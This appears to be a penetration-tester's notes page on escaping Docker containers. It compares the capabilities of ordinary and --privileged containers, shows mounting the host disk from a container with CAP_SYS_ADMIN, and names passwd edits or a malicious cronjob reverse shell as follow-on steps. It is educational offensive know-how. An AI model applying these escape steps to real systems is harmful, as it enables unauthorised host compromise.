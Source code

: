 # Containerisation



## Docker

If you have code-execution in a host with docker installed, and have the appropriate permissions to use it, then you can escalate your permissions fairly trivially.  The process via the docker group is explained in the [Linux Privilege Escalation](https://booj.gitbook.io/virgil/linux/privilege-escalation#docker) section.

### docker.sock

### --privileged

The following shows the output of a regular container's `/sbin/capsh` output:

```text
root@987553478e0f:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

The next is from a container spawned with the `--privileged` flag:

```text
root@ad87033b28fe:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

If you see `CAP_SYS_ADMIN`, then congratulations, you've won.  The easiest way to exploit this is to simply mount the whole disk and browse in that manner:

```text
root@7f6762c86d98:/# mount /dev/sda1 /mnt
root@7f6762c86d98:/# cd /mnt
root@7f6762c86d98:/mnt# ls
cache	    empty	     lib    lost+found	swap
cni	    etc		     local  nfs		tmp
containerd  kubeadm	     lock   run		transfused_start.log
docker	    kubelet-plugins  log    spool
```

If we do this on an unprivileged container, we see the following:

```text
root@987553478e0f:/# mount /dev/sda1 /mnt
mount: /mnt: permission denied.
```

Common exploitation methods from this point on include editing the passwd file, or injecting a malicious cronjob to start services or return a reverse shell.



{% embed url="https://ericchiang.github.io/post/containers-from-scratch/" %}

{% embed url="https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/" %}

{% embed url="https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html" %}

